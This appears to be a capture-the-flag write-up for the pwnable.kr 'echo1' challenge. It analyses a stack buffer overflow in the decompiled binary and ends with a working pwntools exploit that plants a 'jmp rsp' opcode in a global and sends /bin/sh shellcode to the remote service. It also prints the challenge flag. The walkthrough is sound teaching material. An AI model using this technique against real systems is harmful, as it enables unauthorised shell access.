 # echo1

## Description

echo1 - 25 pt

> Pwn this echo service. <br><br>
> download : http://pwnable.kr/bin/echo1 <br><br>
> Running at : nc pwnable.kr 9010


## Solution

### Understanding the binary

Let's start by checking what kind of file it is:

```bash
$ file login
echo1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fa367b7e8f66b68737a56333996d80f0d72e54ea, not stripped
```

Nothing special here. Now, let's check the security features:

```bash
$ checksec --file=login
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX disabled   No PIE
```

It looks like there are no standard mitigations enabled. Usually, when the NX bit is not set and there is no stack canary, we'll need to return to the stack and execute shellcode.

For now, let's stop speculating and check the binary in IDA.

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  _QWORD v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 121; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```

**echo1:**
```
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**echo2:**
```
__int64 echo2()
{
  puts("not supported");
  return 0LL;
}
```
echo3 is the same, byebye and greetings are simply printing strings, and get_input is a wrapper for fgets.

The program allocates a 5 * 8 bytes buffer (or in other words, a buffer that stores 5 addresses). In the last two indexes of the buffer, it stores the addresses of the `greetings` and `byebye` functions. Then, it reads 24 bytes from the user into the first three indexes of the buffer, and stores the address in the buffer at `id`.

After that, the program enters a loop in which it prompts the use for an index, and according to that index it does one of the following:
* calls `echo1`
* calls `echo2`
* calls `echo3`
* exists the loop

### Exploit

Most of the code is irrelevant, so let's focus on the important part. In `echo1` the program calls `get_input` with a buffer of size 128, on a buffer of size 32. 

Our goal is to overwrite the return address of `echo1` with the address of some `jmp rsp` call and then, overwrite the following bytes with shellcode calling `execve("/bin/sh", 0, 0)`.

And so, the challenge is to find a `jmp rsp` gadget in the binary. Unfourtenatly, running `ROPgadget` doesn't yield anything useful, and so does searching the binary for the bytes `FF E4` (the opcode of `jmp rsp`) with  `next(elf.search(asm('jmp rsp')))`. 

However, we can go in a different approach. Instead of searching for a `jmp rsp` gadget, we build ourselves one! Remember that the first 8 bytes of the input are saved at `id`. We can save there the opecode of `jmp rsp` and then overwrite the return address with the address of `id`. 

**Note:** When running the exploit on a local copy of the binary, it might not work for you. On older kernels, when compiling the executable with `-zexecstack` (making the stack executable), the data sections might be loaded as executable too (Which is why or exploit works on the pwnable.kr server). However, they might not be executable on newer kernels.

### Exploit code

```python
from pwn import *

elf = context.binary = ELF('./echo1')
conn = remote('pwnable.kr', 9010)

open_shell = asm(shellcraft.amd64.linux.sh())
jmp_rsp = asm('jmp rsp')

# give "jmp rsp" opcode as name to be saved under id
conn.sendline(jmp_rsp) 

# choose BOF echo 
conn.sendline(b'1')

# overwriting retaddr with the adress of id and the rest of the stack with shellcode 
conn.sendline(b'A' * 40 + p64(0x6020A0) + open_shell)

conn.interactive()
```

```
H4d_som3_fun_w1th_ech0_ov3rfl0w
```